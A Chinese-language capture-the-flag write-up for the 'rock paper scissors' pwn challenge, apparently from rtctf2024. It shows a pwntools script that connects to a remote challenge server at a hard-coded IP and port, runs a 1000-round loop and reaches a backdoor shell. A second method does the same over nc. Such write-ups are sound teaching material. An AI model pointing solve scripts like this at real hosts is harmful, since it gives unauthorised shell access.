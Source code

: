 # **石头剪刀布：**

拿到可执行文件，拖到IDA里看源码：

首先是一个1000次的for循环

![image-20240520175408557](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520175408557.png)

我们可以发现当循环1000次执行后，才会执行我们的后门函数：

![image-20240520175547344](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520175547344.png)

所以现在关键就是如何让这1000次的循环运行完：

到这儿有两种解法：

**第一种**是基于pwntools写一个脚本，接受程序的输出，再向程序输入，主要考察对pwn工具pwntools的使用

脚本如下：（这个脚本是按照石头剪刀布的玩法进行相应的接收和输入，但其实石头剪刀的输赢是没关系的，只要循环1000次就可以了）

```
from pwn import *

p = remote("81.69.243.226", 60579)

# p = process("./rock_paper_scissors")

i = 0

# gdb.attach(p)

for i in range(0,1000):
    p.recvuntil("Computer: \n", drop=True)
    p.recvuntil("->", drop=True)
    str = p.recvline().strip() 
    print(str)
    if str == b'Rock':
        p.recvline(b'You')
        p.sendline("p")
    elif str == b'Scissor':
        p.recvline(b'You')
        p.sendline("r")
    elif str == b'Paper':
        p.recvline(b'You')
        p.sendline("s")
p.interactive()
```

![image-20240520181243938](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520181243938.png)

这里运行的时间会久一点，毕竟有1000次，可以看到我们不仅成功拿到shell，而且也赢了1000次的石头剪刀布✌

![image-20240520181350975](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520181350975.png)

**第二种：**就是直接nc连接，直接输入1000个字符，r,s,p都可以：

![image-20240520181542062](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520181542062.png)

![image-20240520181530551](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520181530551.png)

尽管输了，但还是拿到shell啦

![image-20240520180907888](https://github.com/UUUU66666/rtctf2024/blob/patch-1/Pwn/%E7%9F%B3%E5%A4%B4%E5%89%AA%E5%88%80%E5%B8%83.assets/image-20240520180907888.png)

